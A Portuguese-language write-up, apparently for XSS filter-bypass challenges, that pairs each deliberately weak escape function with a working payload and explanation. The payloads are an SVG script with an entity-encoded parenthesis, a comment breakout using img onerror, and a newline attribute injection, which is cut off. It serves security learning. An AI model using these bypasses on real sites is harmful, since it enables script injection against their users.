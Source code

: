 #### Desafio 2

Código:
````
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}  
````
Resolução funcional:
````
<svg><script>prompt&#40;1)</script></svg>
````
<img width="1155" height="456" alt="Captura de Tela 2025-08-31 às 16 47 11" src="https://github.com/user-attachments/assets/7775d3a4-538f-4ebd-8266-704345c9ff83" />

Explicação:
O código tenta impedir o uso de `=` e `(`, bloqueando construções comuns de XSS.  
Para contornar isso, é possível utilizar entidades do charset HTML que o navegador decodifica antes de interpretar o código.  
Testes com `<img>` e `<script>` não funcionam, mas ao inserir o payload dentro de um `<svg>`, o navegador processa corretamente e executa o código, evidenciando a vulnerabilidade.

#### Desafio 3

Código:
````
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
````

Resolução funcional:
````
--!> <img src=a onerror=prompt(1)>
````

<img width="2392" height="1068" alt="image" src="https://github.com/user-attachments/assets/0454ebee-5936-44a2-880f-8af8fc493bda" />

Explicação:
A função insere o conteúdo do input dentro de um comentário iniciado por `<!--`.  
Para escapar desse comentário, basta fechar manualmente usando `-->`.  
Após o fechamento, é possível injetar código dentro da tag `<img>`, que será interpretado e executado pelo navegador, demonstrando a falha.

## Desafio 5

Código:
````
function escape(input) {
    // apply strict filter rules of level 0
    // filter ">" and event handlers
    input = input.replace(/>|on.+?=|focus/gi, '_');

    return '<input value="' + input + '" type="text">';
} 
````
Resolução funcional:
````
"type=img src
=a onerror
````